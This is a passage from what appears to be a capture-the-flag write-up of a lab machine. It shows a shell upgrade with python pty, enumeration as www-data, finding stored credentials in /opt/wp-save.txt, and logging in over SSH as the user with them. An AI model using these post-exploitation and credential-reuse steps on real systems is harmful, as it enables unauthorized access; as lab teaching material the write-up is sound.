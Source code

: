 First lets upgrade to a proper tty shell to make it easier to use:

```test
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@internal:/$ ^Z
[1]+  Stopped
root@kali:/home/kali/thm/internal# stty raw -echo
www-data@internal:/$
```

That's better, now we look around and find there is a user but we can't access their home folder:

```text
www-data@internal:/$ cd /home
www-data@internal:/home$ ls -lsa
total 12
4 drwxr-xr-x  3 root      root      4096 Aug  3  2020 .
4 drwxr-xr-x 24 root      root      4096 Aug  3  2020 ..
4 drwx------  7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
www-data@internal:/home$ cd aubreanna
bash: cd: aubreanna: Permission denied  
```

I tried a few of the usual CTF things like sudo privileges, suid binaries, unusual files and eventually I found this interesting one:

```text
www-data@internal:/$ cd /opt
www-data@internal:/opt$ ls -lsa
total 16
4 drwxr-xr-x  3 root root 4096 Aug  3  2020 .
4 drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
4 drwx--x--x  4 root root 4096 Aug  3  2020 containerd
4 -rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
```

Let's have a look at it:

```text
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<HIDDEN>
www-data@internal:/opt$ 
```

## User Flag

Nice, they look like credentials, and we know ssh is open. Let's try and log in with them:

```text
kali@kali:~$ ssh aubreanna@internal.thm
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

  System load:  0.01              Processes:              115
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 33%               IP address for eth0:    10.10.3.221
  Swap usage:   0%                IP address for docker0: 172.17.0.1

Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
```
